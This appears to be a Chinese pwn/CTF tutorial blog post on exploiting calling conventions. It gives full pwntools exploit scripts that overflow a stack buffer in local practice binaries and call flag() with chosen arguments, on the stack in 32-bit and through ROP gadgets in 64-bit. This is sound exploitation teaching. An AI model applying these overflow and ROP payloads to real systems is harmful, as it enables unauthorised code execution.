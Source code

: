 ```yaml
---
title: 攻击调用约定
subtitle: 利用调用约定
date: 2023-08-11T15:31:21+08:00
draft: false
author:
  name: CuB3y0nd
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - PWN
  - Stack
categories:
  - PWN
hiddenFromHomePage: false
hiddenFromSearch: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: false
math: false
lightgallery: true
password:
message:
repost:
  enable: false
  url:
---
```


<!--more-->

{{< link href="/pwn_assets/exploiting_with_params.zip" content="exploiting_with_params.zip" title="Download exploiting_with_params.zip" download="exploiting_with_params.zip" card=true >}}

## 0x01 32-bit

程序期望在执行函数之前栈是这样的布局：

<div align=center>
  <image src="https://s1.ax1x.com/2023/08/11/pPn3RoV.png"/>
</div>

那么我们为什么不这样提供呢？除了函数之外，我们还传递返回地址和参数：

<div align=center>
  <image src="https://s1.ax1x.com/2023/08/11/pPn3hJU.png"/>
</div>

`flag()` 地址之后的所有内容都将成为下一个函数的栈帧的一部分，因为它 **预期** 在那里
——只是我们没有使用 `push` 指令，而是手动覆盖它们。

```python {title="exp.py"}
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-32')

# Padding 到 EIP
payload = b'A' * 52
# flag() 的地址
payload += p32(0x080491c7)
# 避免异常
payload += p32(0x0)
# 第一个参数
payload += p32(0xdeadc0de)
# 第二个参数
payload += p32(0xc0ded00d)

p.sendline(payload)

p.interactive()
```

## 0x02 64-bit

相同的逻辑，只不过我们必须利用之前讨论过的 gadgets 来填充所需的寄存器（在本例中为
`rdi` 和 `rsi` ，因为我们有两个参数）。

我们必须在 *调用函数之前* 填充寄存器：

```python {title="exp.py"}
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-64')

POP_RDI, POP_RSI_R15 = 0x4011fb, 0x4011f9

# Padding 到 EIP
payload = b'A' * 56
# pop rdi ; ret
payload += p64(POP_RDI)
# 进入 rdi 的值 - 第一个参数
payload += p64(0xdeadc0de)
# pop rsi ; pop r15 ; ret
payload += p64(POP_RSI_R15)
# 进入 rsi 的值 - 第二个参数
payload += p64(0xc0ded00d)
# 进入 r15 的值 - 避免异常
payload += p64(0x0)
# flag() 的地址
payload += p64(0x40116f)
# 避免异常
payload += p64(0x0)

p.sendline(payload)

p.interactive()
```

{{<admonition type="info">}}

在返回地址后面加 0 本质是为了让程序有个返回的地方，防止异常，不然会返回到下面
奇奇怪怪的东西；有时候也可能是栈对齐，64-bit 程序执行 `system` 时会有一个检查，
确保栈指针是指着 0 的（结尾是 0），没有对齐的话就不能执行。

通常 0 可以替换为任意值，效果是一样的。只是习惯加 0。

{{</admonition>}}

